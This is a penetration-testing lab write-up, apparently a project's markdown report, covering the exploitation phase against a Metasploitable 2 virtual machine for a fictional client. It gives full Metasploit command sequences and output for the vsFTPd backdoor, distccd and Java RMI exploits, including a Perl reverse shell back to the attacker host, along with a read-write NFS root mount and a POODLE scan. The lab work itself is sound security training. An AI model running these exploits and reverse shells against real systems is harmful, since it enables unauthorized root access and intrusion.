










# Exploitation

## Scope

The following confirmed vulnerabilities from the Vulnerability Assessment phase were tested:

1. **vsFTPd 2.3.4 Backdoor** — CVE-2011-2523
2. **distccd Command Execution** — CVE-2004-2687
3. **Unrestricted NFS Root Export**
4. **Java RMI Remote Code Execution**
5. **PostgreSQL SSL/TLS POODLE** — CVE-2014-3566

| Item | Details |
|---|---|
| Client | Qelvaris Technologies Private Limited |
| Attacker | Kali Linux — `192.168.200.20` |
| Target | Metasploitable 2 — `192.168.200.10` |
| Network | `192.168.200.0/24` |
| VMware LAN Segment | `CYBERLAB` |

> **Disclaimer:** Qelvaris Technologies Private Limited is a fictional organization created solely for this security lab.

---

## Command Context

The screenshots and commands below use different command environments:

- **Kali Shell** — commands executed directly from Kali Linux.
- **Metasploit** — commands entered at the `msf >` prompt.
- **Meterpreter** — commands entered at the `meterpreter >` prompt.
- **Target Shell** — Linux commands executed after obtaining a command shell on the target.

> **Note:** Commands such as `id`, `hostname`, `uname`, and `ls` are Linux shell commands when executed in a target shell. They are different from Metasploit and Meterpreter commands.

---

# 1. vsFTPd 2.3.4 Backdoor

**CVE:** CVE-2011-2523  
**Service:** FTP  
**Port:** `21/tcp`

### Service Verification

**Kali Shell**

```bash
sudo nmap -Pn -p21 -sV 192.168.200.10
```

**Result**

```text
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```



### Exploitation

**Metasploit**

```text
msf > search vsftpd 2.3.4
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf > set RHOSTS 192.168.200.10
msf > set LHOST 192.168.200.20
msf > run
```

**Result**

```text
[+] 192.168.200.10:21 - The target appears to be vulnerable.
[+] 192.168.200.10:21 - Backdoor has been spawned!
[*] Meterpreter session 1 opened
```

### Access Verification

**Meterpreter**

```text
meterpreter > getuid
Server username: root

meterpreter > sysinfo
Computer     : metasploitable.localdomain
OS           : Ubuntu 8.04 (Linux 2.6.24-16-server)
Architecture : i686
Meterpreter  : x86/linux
```



**Result:** **Successfully exploited.** Root-level Meterpreter access was obtained.

---

# 2. distccd Command Execution

**CVE:** CVE-2004-2687  
**Service:** distccd  
**Port:** `3632/tcp`

### Service Verification

**Kali Shell**

```bash
sudo nmap -Pn -p3632 -sV 192.168.200.10
```

**Result**

```text
PORT     STATE SERVICE VERSION
3632/tcp open  distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```



### Exploitation

**Metasploit**

```text
msf > search distccd
msf > use exploit/unix/misc/distcc_exec
msf > set RHOSTS 192.168.200.10
msf > set LHOST 192.168.200.20
```

The initial `reverse_bash` payload failed because `/dev/tcp` was not available on the target.

An alternative Unix reverse-shell payload was then used:

```text
msf > set payload cmd/unix/reverse_perl
msf > run
```

**Result**

```text
[*] Started reverse TCP handler on 192.168.200.20:4444
[*] Command shell session 1 opened
```

### Access Verification

**Target Shell**

```bash
id
```

**Result**

```text
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

Additional system verification:

```bash
hostname
uname -a
```



> `id`, `hostname`, and `uname` are Linux shell commands executed through the compromised target shell. They are not Metasploit commands.

**Result:** **Successfully exploited.** Remote command execution was obtained as the `daemon` user.

---

# 3. Unrestricted NFS Root Export

**Service:** NFS  
**Export:** `/`

### Export Verification

**Kali Shell**

```bash
showmount -e 192.168.200.10
```

**Result**

```text
Export list for 192.168.200.10:
/ *
```

### Mount the Export

```bash
sudo mkdir -p /mnt/metasploitable-nfs
sudo mount -t nfs 192.168.200.10:/ /mnt/metasploitable-nfs/ -o nolock
```

Verify the mount:

```bash
mount | grep /metasploitable-nfs
```

**Result**

```text
192.168.200.10:/ on /mnt/metasploitable-nfs type nfs (...,rw,...)
```

### Access the Root Filesystem

```bash
sudo ls -la /mnt/metasploitable-nfs
```

The target root filesystem was accessible, including:

```text
/bin
/boot
/etc
/home
/root
/usr
/var
```


### NFS Write Test

```bash
sudo touch /mnt/metasploitable-nfs/tmp/pentest-nfs-test
```
```bash
sudo ls -ln /mnt/metasploitable-nfs/tmp/pentest-nfs-test
```
```text
-rw-r -- r -- 1 0 0 0 Aug 19 03:06 /mnt/metasploitable-nfs/tmp/pentest-nfs-test
```
```bash
sudo rm /mnt/metasploitable-nfs/tmp/pentest-nfs-test
```

```bash
sudo ls -l /mnt/metasploitable-nfs/tmp/pentest-nfs-test
```

```text
ls: cannot access '/mnt/metasploitable-nfs/tmp/pentest-nfs-test': No such file or di
rectory
```




**Result:** **Successfully validated.** The target's root filesystem was remotely mounted and file was created and deleted with read-write access.

---

# 4. Java RMI Remote Code Execution

**Service:** GNU Classpath `grmiregistry`  
**Port:** `1099/tcp`

### Service Verification

**Kali Shell**

```bash
sudo nmap -Pn -p1099 -sV 192.168.200.10
```

**Result**

```text
PORT     STATE SERVICE  VERSION
1099/tcp open  java-rmi GNU Classpath grmiregistry
```



### Module Identification

**Metasploit**

```text
msf > search java rmi server
```

The server-side module identified for the exposed RMI service was:

```text
exploit/multi/misc/java_rmi_server
```

```text
msf > use exploit/multi/misc/java_rmi_server
```

### Exploitation

```text
msf > set RHOSTS 192.168.200.10
msf > set LHOST 192.168.200.20
msf > set SRVHOST 192.168.200.20
msf > run
```

**Result**

```text
[*] Sending RMI Header...
[*] Sending RMI Call...
[*] Replied to request for payload JAR
[*] Meterpreter session 1 opened
```

### Access Verification

**Meterpreter**

```text
meterpreter > getuid
Server username: root

meterpreter > sysinfo
Computer        : metasploitable
OS              : Linux 2.6.24-16-server (i386)
Architecture    : x86
Meterpreter     : java/linux
```



**Result:** **Successfully exploited.** Root-level Meterpreter access was obtained.

---

# 5. PostgreSQL SSL/TLS POODLE

**CVE:** CVE-2014-3566  
**Service:** PostgreSQL  
**Port:** `5432/tcp`

> **Note:** POODLE is a protocol-level confidentiality vulnerability, not a remote command execution vulnerability. Exploitation in this lab therefore focuses on validating the vulnerable SSL/TLS configuration.

### Service Verification

**Kali Shell**

```bash
sudo nmap -Pn -p5432 -sV 192.168.200.10
```

**Result**

```text
PORT     STATE SERVICE    VERSION
5432/tcp open  postgresql PostgreSQL DB 8.3.0 - 8.3.7
```

### POODLE Validation

```bash
sudo nmap -Pn -p5432 --script ssl-poodle 192.168.200.10
```

**Result**

```text
| ssl-poodle:
|   VULNERABLE:
|   SSL POODLE information leak
|     State: VULNERABLE
|     IDs:
|       CVE:CVE-2014-3566
```



### SSL/TLS Enumeration

```bash
sudo nmap -Pn -p5432 --script ssl-enum-ciphers 192.168.200.10
```

The scan confirmed SSLv3 support and reported:

```text
SSLv3:
    TLS_RSA_WITH_AES_128_CBC_SHA
    TLS_RSA_WITH_AES_256_CBC_SHA

warnings:
    CBC-mode cipher in SSLv3 (CVE-2014-3566)
```



**Result:** **Vulnerability confirmed.** The PostgreSQL endpoint supported SSLv3 with CBC-mode ciphers and was identified as vulnerable to POODLE.

No remote shell was attempted because POODLE does not provide direct remote code execution.

---

# Exploitation Summary

| Finding | Result | Access / Impact |
|---|---|---|
| vsFTPd 2.3.4 Backdoor — CVE-2011-2523 | **Exploited** | Root Meterpreter |
| distccd Command Execution — CVE-2004-2687 | **Exploited** | `daemon` command shell |
| Unrestricted NFS Root Export | **Validated** | Root filesystem, read-write |
| Java RMI Remote Code Execution | **Exploited** | Root Meterpreter |
| PostgreSQL POODLE — CVE-2014-3566 | **Confirmed** | SSLv3/CBC vulnerability |

---

# Phase Conclusion

All five findings selected during the Vulnerability Assessment phase were practically validated.

Three findings resulted in direct command execution or remote access, NFS provided unauthorized root filesystem access, and the PostgreSQL finding was validated as a protocol-level SSL/TLS vulnerability.

No unrelated vulnerabilities were added to the exploitation scope.

## Next Phase

**[Post-Exploitation](post-exploitation.md)**
